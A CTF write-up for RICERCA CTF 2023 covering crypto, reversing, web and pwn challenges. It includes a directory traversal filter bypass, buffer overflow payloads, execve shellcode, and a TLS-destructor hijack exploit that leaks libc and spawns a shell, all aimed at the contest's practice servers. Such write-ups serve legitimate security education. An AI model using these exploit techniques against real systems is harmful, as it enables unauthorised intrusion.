



# RICERCA CTF 2023

## 1. Overview



Participate RICERCA CTF 2023 and achieve overall 12th / individual 1st!
Problems are so wellmade and enjoyed very much~~

I'm not all-rounder but pwner so other part's solutions are could be confused. Please understand.

## 2. Writeups


### 2.1. welcome



### 2.2. crackme
If we open `creakme` binary using IDA
```cpp
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  unsigned int v3; // r12d
  char *v4; // rsi
  const char *v5; // rdi
  void (*v6)(void); // rdx
  char _0[96]; // [rsp+0h] [rbp+0h] BYREF
  int anonymous0; // [rsp+60h] [rbp+60h]
  unsigned __int64 vars68; // [rsp+68h] [rbp+68h]

  v3 = 1;
  vars68 = __readfsqword(0x28u);
  __printf_chk(1LL, "Password: ", a3);
  memset(_0, 0, sizeof(_0));
  v4 = _0;
  anonymous0 = 0;
  v5 = "%99s";
  if ( (unsigned int)__isoc99_scanf("%99s", _0) == 1 )
  {
    v4 = "N1pp0n-Ich!_s3cuR3_p45$w0rD";
    v3 = 1;
    if ( !strcmp(_0, "N1pp0n-Ich!_s3cuR3_p45$w0rD") )
    {
      v3 = 0;
      puts("[+] Authenticated");
      v5 = _0;
      sub_1290(_0);
    }
    else
    {
      v5 = "[-] Permission denied";
      puts("[-] Permission denied");
    }
  }
  if ( __readfsqword(0x28u) != vars68 )
    start((__int64)v5, (__int64)v4, v6);
  return v3;
}
```

we can understand that if we input `N1pp0n-Ich!_s3cuR3_p45$w0rD` to binary, it return flag to us.

flag: `RicSec{U_R_h1y0k0_cr4ck3r!}`


### 2.3. Revolving Letters
Let's analysis logic
```python
LOWER_ALPHABET  = "abcdefghijklmnopqrstuvwxyz"
key             = "thequickbrownfoxjumpsoverthelazydog"

def encrypt(secret, key):
  assert len(secret) <= len(key)
  
  result = ""
  for i in range(len(secret)):
    if secret[i] not in LOWER_ALPHABET: # Don't encode symbols and capital letters (e.g. "A", " ", "_", "!", "{", "}")
      result += secret[i]
    else:
      result += LOWER_ALPHABET[(LOWER_ALPHABET.index(secret[i]) + LOWER_ALPHABET.index(key[i])) % 26]

  return result
```

1. If input is not `LOWER_ALPHABET` -> not modify
2. else -> calculate `result = (LOWER_ALPHABET.index(secret[i]) + LOWER_ALPHABET.index(key[i])) % 26` and access `LOWER_ALPHABET` as index

then, we can easily short `index(result[i]) = index(secret[i]) + index(key[i])`. 
So `index(secret[i]) = index(result[i]) - index(key[i])`.

therefore, we can make decrypt function
```python
LOWER_ALPHABET = "abcdefghijklmnopqrstuvwxyz"
key     = "thequickbrownfoxjumpsoverthelazydog"
def decrypt(secret, key):
  assert len(secret) <= len(key)
  
  result = ""
  for i in range(len(secret)):
    if secret[i] not in LOWER_ALPHABET: # Don't encode symbols and capital letters (e.g. "A", " ", "_", "!", "{", "}")
      result += secret[i]
    else:
      result += LOWER_ALPHABET[(LOWER_ALPHABET.index(secret[i]) - LOWER_ALPHABET.index(key[i])) % 26]

  return result

enc = "RpgSyk{qsvop_dcr_wmc_rj_rgfxsime!}"

print(decrypt(enc, key))
```

flag: `RicSec{great_you_can_do_anything!}`


### 2.4. Cat Café
When we access to image, use below function
```python
@app.route('/img')
def serve_image():
    filename = flask.request.args.get("f", "").replace("../", "")
    path = f'images/{filename}'
    if not os.path.isfile(path):
        return flask.abort(404)
    return flask.send_file(path)
```
but is has problem! 

if we send `....//flag.txt`, it filtered 
But, `....//flag.txt` -> `../flag.txt` because replace erase `../` only one time.

Then, We can read flag!

flag: `RicSec{directory_traversal_is_one_of_the_most_common_vulnearbilities}`


### 2.5. BOFSec
Let's read funcion

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef struct {
  char name[0x100];
  int is_admin;
} auth_t;

auth_t get_auth(void) {
  auth_t user = { .is_admin = 0 };
  printf("Name: ");
  scanf("%s", user.name);
  return user;
}

int main() {
  char flag[0x100] = {};
  auth_t user = get_auth();

  if (user.is_admin) {
    puts("[+] Authentication successful.");
    FILE *fp = fopen("/flag.txt", "r");
    if (!fp) {
      puts("[!] Cannot open '/flag.txt'");
      return 1;
    }
    fread(flag, sizeof(char), sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
    return 0;
  } else {
    puts("[-] Authentication failed.");
    return 1;
  }
}
```

we needs to turn on `is_admin` flag.
`scanf("%s", user.name);` read arbitrary length so it can access to `is_admin` if we send more than `0x100`bytes as input!

so payload is 
```python
from pwn import *

p = remote("bofsec.2023.ricercactf.com", 9001)
p.sendline("A"*0x108)

p.interactive()
```

flag: `RicSec{U_und3rst4nd_th3_b4s1c_0f_buff3r_0v3rfl0w}`


### 2.6. tinyDB
main problem part is `index.ts` part. In there,
```ts
if (userDB.size > 10) {
    // Too many users, clear the database
    userDB.clear();
    auth.username = "admin";
    auth.password = getAdminPW();
    userDB.set(auth, "admin");
    auth.password = "*".repeat(auth.password.length);
  }
```

so If exceed `userDB.size`, It clear database and set admin again.
Problem is, db set `admin` password as `"*".repeat(auth.password.length)`.

After that, set `admin` password as random value.
```ts
const rollback = () => {
    const grade = userDB.get(auth);
    updateAdminPW();
    const newAdminAuth = {
      username: "admin",
      password: getAdminPW(),
    };
    userDB.delete(auth);
    userDB.set(newAdminAuth, grade ?? "guest");
  };
  setTimeout(() => {
    // Admin password will be changed due to hacking detected :(
    if (auth.username === "admin" && auth.password !== getAdminPW()) {
      rollback();
    }
  }, 2000 + 3000 * Math.random()); // no timing attack!
```

If there isn't exist `2000 + 3000 * Math.random()`, It is hard to exploit stable. However, it contains some delay when set admin password.(2~5 sec)

Therefore, Idea is simple
```
1. send any id and pw 11 times
2. consequently, read flag with id: admin, pw: ********************************
```

`{"flag":"great! here is your flag: RicSec{j4v45cr1p7_15_7000000000000_d1f1cul7}"}`


### 2.7. Rotated Secret Analysis
```python
import os
from Crypto.Util.number import bytes_to_long, getPrime, isPrime

# flag = os.environ.get("FLAG", "fakeflag").encode()

while True:
  p = getPrime(1024)
  q = (p << 512 | p >> 512) & (2**1024 - 1) # bitwise rotation (cf. https://en.wikipedia.org/wiki/Bitwise_operation#Rotate)
  if isPrime(q): break

n = p * q

print(p, q, n)
e = 0x10001
m = bytes_to_long(flag)

c = pow(m, e, n)

print(f'{n=}')
print(f'{e=}')
print(f'{c=}')
```

RSA has problem when use weak p or q! I think it is unsafe enough to break RSA.

Let's make some equations for solve problems

let 
$$p = p_1 \times 2^{512} + p_2\\
q = p_2 \times 2^{512} + p_1\\
(p_1, q_1 < 2^{512})\\
$$

then
$$
\begin{aligned}
N 
&= p*q \\
&= (p_1 \times 2^{512} + p_2) \times (p_2 \times 2^{512} + p_1) \\
&= p_1p_2 \times 2^{1024} + 2(p_1^2 + p_2^2)2^{512} + p_1p_2
\end{aligned}
$$

theorically, $$2(p_1^2 + p_2^2)2^{512} < 2^{1024+512+1} = 2^{1537}$$
because of range condition of $p_1, p_2$

also, we know that only lower 512bytes of N is fully dependent by $p_1p_2$
furthermore, upper 511 bytes of N is fully dependent by $p_1p_2$.

only problem is, we can't determine 1bit of $p_1p_2$ but we can bruteforce 1 bit easily~~.

then we know $p_1p_2$ and $p_1^2 + p_2^2$ so easily calculate $p_1$ and $p_2$

now we know $p$ and $q$ so we can decrypt message.

```python
from Crypto.Util.number import long_to_bytes, getPrime, isPrime
import math

n=24456513668907101359271796518022987404822072050667823923658615869713366383971188719969649435049035576669472727127263581903194099017975695864947929128367925596885753443249213201464273639499012909424736149608651744371555837721791748016889531637876303898022555235081004895411069645304985372521003721010862125442095042882100526577024974456438653686633405126923109918116756381929718438800103893677616376097141956262119327549521930637736951686117614349172207432863248304206515910202829219635801301165048124304406561437145821967710958494879876995451567574220240353599402105475654480414974342875582148522218019743166820077511
e=65537
c=18597341961729093099197297749831937867867316311655201999082918827905805371478429928112783157010654738161403312986940377995349388331953112844242407426040120302839420903486499187443737383169223520050969011318937950864196985991944523897440559547618789750180738003138383081085865616976666352985134179471231798760776607911573149993314296253654585181164097972479570867395976653829684069633563438561147707530130563531572708010593487686521808574459865586551335422619675302973576174518308347087901889923892503468385483111040271271572302540992212613766789315482719811321158322571666641755809592299352653626100918299699982602448

mul_hi = (n >> (1024+512)) - 1
mul_lo = n & (2**512 - 1)
mul = ((mul_hi << 512) | mul_lo)
print(hex(mul))

square_add = (n - (mul << 1024) - mul) >> 512
add = math.isqrt(square_add + 2*mul)
sub = math.isqrt(square_add - 2*mul)
assert(add ** 2 == square_add + 2*mul)
assert(sub ** 2 == square_add - 2*mul)

hi = (add + sub) // 2
lo = (add - sub) // 2

p = (hi<<512) | lo
q = (lo<<512) | hi
print(p, q)

assert(p*q == n)

phi = (p-1) * (q-1)
d = pow(e, -1, phi)

dec = pow(c, d, n)

m = long_to_bytes(dec)

print(f'{m}')
```

flag: `RicSec{d0nt_kn0w_th3_5ecr3t_w1th0ut_r0t4t1n9!}`


## 2.8. gatekeeper
```python
import subprocess

if __name__ == '__main__':
  password = input('password: ')

  if password.startswith('b3BlbiBzZXNhbWUh'):
    exit(':(')

  print(base64_decode(password))
  if base64_decode(password) == b'open sesame!':
    print(open('/flag.txt', 'r').read())
  else:
    print('Wrong')
```

`open sesame!`'s base64 version is `b3BlbiBzZXNhbWUh`. So we need to find the way bypass it. 

Usually many programs are programmed that bypass some dirty bytes or padding.

`base64` also same, 
when we read [base64.c](https://github.com/coreutils/gnulib/blob/master/lib/base64.c#L396),
 we find that if some string has padding between string in spicific place, resolve and ignore it.

```python
from pwn import *
p = remote("gatekeeper.2023.ricercactf.com", "10005")
# p = process(["python3", "server.py"])
p.sendline("b3BlbiBzZXNhbWU=IQ==")
while True:
    print(p.recvline())
p.interactive()
```

flag: `RicSec{b4s364_c4n_c0nt41n_p4ddin6}`


### 2.9 NEMU
```cpp
int main() {
  void *op_fp, *read_fp;
  uint64_t operand;
  int32_t r1 = 0, r2 = 0, r3 = 0, a = 0;

  int32_t* readreg() {
    if (getchar() != 'r') exit(1);
    switch (readint()) {
      case 1: return &r1;
      case 2: return &r2;
      case 3: return &r3;
      case 0: return &a;
      default: exit(1);
    }
  }

  uint32_t readimm() {
    if (getchar() != '#') exit(1);
    return readint();
  }

  [...];

  while (1) {
    printf(
      "Current register status: \n"
      "REG1(r1): 0x%08x\n"
      "REG2(r2): 0x%08x\n"
      "REG3(r3): 0x%08x\n"
      " ACC(r0): 0x%08x\n\n",
      r1, r2, r3, a
    );
    printf("opcode: ");
    switch (readint()) {
      case 1: {
        void load(uint64_t imm) { a = imm; }
        op_fp = load;
        read_fp = readimm;
        break;
      }
      case 2: {
        void mov(uint64_t* reg) { *reg = a; }
        op_fp = mov;
        read_fp = readreg;
        break;
      }
      case 3: {
        void inc(uint64_t* reg) { *reg += 1; }
        op_fp = inc;
        read_fp = readreg;
        break;
      }
      case 4: {
        void dbl(uint64_t* reg) { *reg *= 2; }
        op_fp = dbl;
        read_fp = readreg;
        break;
      }
      case 5: {
        void addi(uint64_t imm) { a += imm; }
        op_fp = addi;
        read_fp = readimm;
        break;
      }
      case 6: {
        void add(uint64_t* reg) { a += *reg; }
        op_fp = add;
        read_fp = readreg;
        break;
      }
      default:
        exit(1);
    }
    printf("operand: ");
    ((void (*)(uint64_t))op_fp)(((uint64_t(*)())read_fp)());
  }
}
```

if we checksec, we know that stack is `RWX`
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Vuln is, register use `int32_t` but functions use `uint64_t *`
We can thought that some register occur oob R/W

Let's see at IDA
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int *v5; // [rsp+0h] [rbp-120h]
  int *v6; // [rsp+8h] [rbp-118h]
  unsigned int v7; // [rsp+10h] [rbp-110h] BYREF
  unsigned int v8; // [rsp+14h] [rbp-10Ch]
  unsigned int v9; // [rsp+18h] [rbp-108h]
  unsigned int v10; // [rsp+1Ch] [rbp-104h]
  int v11; // [rsp+20h] [rbp-100h] BYREF
  
  [...];

  v11 = -98693133;
  v12 = -17591;
  v13 = add_3507;
  v14 = -17847;
  v15 = &v7;
  v16 = -1864106167;
  v10 = 0;
  v9 = 0;
  v8 = 0;
  v7 = 0;

  [...];

  while(1)
  {
    printf(
      "Current register status: \nREG1(r1): 0x%08x\nREG2(r2): 0x%08x\nREG3(r3): 0x%08x\n ACC(r0): 0x%08x\n\n",
      v10,
      v9,
      v8,
      v7);

    [...];

        case 6u:
            v5 = &v11;
            v6 = &v35;
            break;
        default:
            exit(1);
    }
    printf("operand: ");
    v3 = ((__int64 (*)(void))v6)();
    ((void (__fastcall *)(__int64))v5)(v3);
  }
```

`v7` is `r1` register and it connected with `v11` and `v11` contains 4bytes assembly. We can overwrite `v11` using `dbl` and `inc`. After that, when we call `add`, we can execute overwrite value!

So, What value we should overwrite?
We consider where we can overwrite from stack. we can control `r0`, `r1`, `r2`, `r3` so we can execute 0x10 bytes shellcode when we jump to `r0` register.

Therefore, idea is
1. overwrite `v11` to `jmp 0xfffffffffffffff0; nop; nop`, which jumps to `r0` address
2. make 0x10 bytes shellcode and write it start with `r0` address.
    - `mov rsi,rdi;  mov dl,0xff;    xor rax,rax;    xor rdi,rdi;    syscall;`
    - this shellcode allow us to overwrite stack again
3. overwrite shellcode and get shell

```python
from pwn import *

context.terminal = ["tmux", "new-window"]
# p = process("./chall")
p = remote("nemu.2023.ricercactf.com", "9002")

def readinfo(recvunt):
    p.recvuntil(recvunt)
    return p.recvline().replace(b"\n", b"")

def cmd(cmd: str, value: str):

    if(cmd == "load"):
        cmd = "1"
    elif(cmd == "mov"):
        cmd = "2"
    elif(cmd == "inc"):
        cmd = "3"
    elif(cmd == "dbl"):
        cmd = "4"
    elif(cmd == "addi"):
        cmd = "5"
    elif(cmd == "add"):
        cmd = "6"
    
    p.sendlineafter("opcode: ", cmd)

    if(value == "reg1"):
        value = "r1"
    elif(value == "reg2"):
        value = "r2"
    elif(value == "reg3"):
        value = "r3"
    elif(value == "acc"):
        value = "r0"
    else:
        value = f"#{value}"

    p.sendlineafter("operand: ", value)

def value_generator(target, reg):
    binst = format(target, "b")[::-1]
    for revbyte in range(0, len(binst), 32):
        for c in binst[revbyte:revbyte+32][::-1]:
            cmd("dbl", reg)
            if c == "1":
                cmd("inc", reg)

 
## [0: r0 / 4: r3 / 8: r2 / 12: r1]
value_generator(u32("\x48\x89\xFE\xb2"), "acc")
value_generator(u32("\xFF\x48\x31\xC0"), "reg3")
value_generator(u32("\x48\x31\xFF\x0F"), "reg2")
value_generator(u32("\xeb\xee\x90\x90"), "reg1")
value_generator(u32("\x05\x90\x90\x90"), "reg1")

cmd("add", "reg1")
payload = b"A" + b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
p.sendline(payload)
p.interactive()
```

flag: `RicSec{me0w_i_am_n3mu_n3mu_c4tt0}`


### 2.10 Safe Thread
```cpp
void *thread(void *_arg) {
  ssize_t len;
  char buf[0x10] = {};
  write(STDOUT_FILENO, "size: ", 6);
  read_n(buf, 0x10);
  len = atol(buf);
  write(STDOUT_FILENO, "data: ", 6);
  read_n(buf, len);
  exit(0);
}

int main() {
  alarm(180);
  pthread_create(&th, NULL, thread, NULL);
  pthread_join(th, NULL);
  return 0;
}
```
and checksec is 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It occur BOF at thread stack. Thread stack is connected with `fs` segment. More specifically, stack has lower address then `fs` segment. So, by using oob, we can overwrite `fs` segment values.

And `thread` function call `exit`. This process actually call `__run_exit_handlers -> __call_tls_dtors`. In `__call_tls_dtors`, It execute function pointer.
```cpp
void
__call_tls_dtors (void)
{
  while (tls_dtor_list)
    {
      struct dtor_list *cur = tls_dtor_list;
      dtor_func func = cur->func;
      PTR_DEMANGLE (func);

      func (cur->obj);
```

we can control `tls_dtor_list` by OOB, in assembly, `tls_dtor_list` saves in `rbp` by this machenism
```cpp
0x7f913a455d6a <__call_tls_dtors+10> mov    rbx, QWORD PTR [rip+0x1d301f]        # 0x7f913a628d90
0x7f913a455d71 <__call_tls_dtors+17> mov    rbp, QWORD PTR fs:[rbx]
```

after that, `PTR_DEMANGLE(func)` and call `func`.
`PTR_DEMANGLE(func)` is `ror(func, 0x11) ^ fs:0x30` and we can control `cur` and `fs:0x30`. Therefore, we can jump to any function.

If we see assembly, we can know that we can control `rdi`, `rdx`
```cpp
0x7f913a455d80 <__call_tls_dtors+32> mov    rdx, QWORD PTR [rbp+0x18]
0x7f913a455d84 <__call_tls_dtors+36> mov    rax, QWORD PTR [rbp+0x0]
0x7f913a455d88 <__call_tls_dtors+40> ror    rax, 0x11
0x7f913a455d8c <__call_tls_dtors+44> xor    rax, QWORD PTR fs:0x30
0x7f913a455d95 <__call_tls_dtors+53> mov    QWORD PTR fs:[rbx], rdx
0x7f913a455d99 <__call_tls_dtors+57> mov    rdi, QWORD PTR [rbp+0x8]
0x7f913a455d9d <__call_tls_dtors+61> call   rax
 ```

so We should set `rbp` and `fs:0x30` to ELF's `got.plt` section address to set `func` and `rdx` register. After that, jump to `thread` function's write section(`0x4012C3`). Then it prints information of `rsi` register's address, length is `rdx`.

```cpp
.text:00000000004012B4                 mov     r13, rax
.text:00000000004012B7                 mov     edx, 6          ; n
.text:00000000004012BC                 lea     rsi, aData      ; "data: "
.text:00000000004012C3                 mov     edi, 1          ; fd
.text:00000000004012C8                 call    _write
.text:00000000004012CD                 test    r13, r13
.text:00000000004012D0                 jle     short loc_401315
.text:00000000004012D2                 mov     ebp, 0
.text:00000000004012D7                 mov     r14, rsp
```
By using this, we can leak libc address.

After that, it receive information again. Now we know libc address and we can set `rdi` by using upper mechenism. Therefore, we can call `system("/bin/sh")`

```python
from pwn import *

context.terminal = ["tmux", "new-window"]
# p = process("./chall")
p = remote("safe-thread.2023.ricercactf.com", "9004")
elf = ELF("./chall")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

gdb.attach(p, gdbscript="""
# b *0x4012eb
# b __run_exit_handlers
b __call_tls_dtors
"""
)

def ROL(data, shift, size=64):
    shift %= size
    remains = data >> (size - shift)
    body = (data << shift) - (remains << size )
    return (body + remains)
    

def ROR(data, shift, size=64):
    shift %= size
    body = data >> shift
    remains = (data << (size - shift)) - (body << size)
    return (body + remains)

fs_offset = 0x7f8325a69640-0x7f8325a68e10
tls_dtor_offset = fs_offset - 0x58

def payload_geneator(dtor, jump, begin_info = b""):
    payload = begin_info
    payload += p8(0)*(tls_dtor_offset - len(begin_info))
    payload += p64(dtor)
    payload += p8(0)*(fs_offset - len(payload))

    payload += p64(0x404018 - 0x972)*3
    payload += p64(0xdeadbeefcafebabe) * 3
    payload += p64(jump)

    return payload


p.sendlineafter("size: ", str(len(payload_geneator(0x0, 0x0))))
p.sendlineafter("data: ", payload_geneator(0x404004, 0x4012C3))

libc_leak = u64(p.recv(0x8))
libc_base = libc_leak - 0x21af00
print(hex(libc_base))

fs_offset = 0x8c8
tls_dtor_offset = fs_offset - 0x58
info_start = libc_base - 0x4288

p.sendline(payload_geneator(info_start, 0x0, p64(ROL((libc_base+libc.symbols['system']+27) ^ 0x4012C3, 0x11) ) + p64(libc_base+list(libc.search(b'/bin/sh'))[0])*2 + p64(info_start+0x20)))

p.interactive()
```

flag: `RicSec{pthread_1s_w34k_t0_BOF_by_d3s1gn}`